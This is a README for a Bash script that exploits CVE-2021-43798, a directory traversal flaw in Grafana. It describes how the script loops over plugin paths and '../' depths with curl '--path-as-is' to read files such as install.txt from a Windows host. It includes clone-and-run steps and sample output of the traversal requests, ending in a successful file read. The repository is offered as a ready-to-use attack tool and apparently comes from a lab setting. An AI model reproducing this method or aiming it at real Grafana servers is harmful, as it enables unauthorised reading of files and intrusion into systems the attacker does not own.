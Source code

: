 # Grafana Directory Traversal Exploit Script

This repository contains a Bash script designed to exploit the CVE-2021-43798 vulnerability in Grafana. The script systematically attempts directory traversal attacks to access sensitive files on a Windows server.

## Description

The script iterates through various plugin paths and traversal depths to locate the target file (`install.txt`) on a Windows server running Grafana. The directory traversal attack is performed using the `--path-as-is` parameter with `curl`.

## Usage

1. **Clone the Repository**

    ```bash
    git clone https://github.com/yourusername/grafana-exploit.git
    cd grafana-exploit
    ```

2. **Make the Script Executable**

    ```bash
    chmod +x grafana_traversal.sh
    ```

3. **Run the Script**

    ```bash
    ./grafana_traversal.sh
    ```

## Script Details

### Variables

- `base_url`: The base URL of the target Grafana instance.
- `target_file`: The target file path you want to access (`Users/install.txt`).
- `max_depth`: The maximum directory traversal depth to try (default is 15).
- `plugin_paths`: An array of plugin paths to test.

### Functions

- `build_traversal_path(depth)`: Constructs the traversal path based on the specified depth.

### Workflow

1. The script iterates over each plugin path and traversal depth.
2. It constructs the URL for each combination and makes a `curl` request using the `--path-as-is` parameter.
3. If the HTTP response code is 200, the script prints the content of the file and exits.
4. If all attempts fail, the script prints a failure message.

## Example Output

```bash
Trying path: http://192.168.248.193:3000/public/plugins/alertGroups/../../../../../../../../Users/install.txt
Failed with HTTP code 404
Trying path: http://192.168.248.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt
Failed with HTTP code 404
...
Trying path: http://192.168.248.193:3000/public/plugins/zipkin/../../../../../../../../Users/install.txt
Success! Found the file at: http://192.168.248.193:3000/public/plugins/zipkin/../../../../../../../../Users/install.txt
File content:
<contents of install.txt>
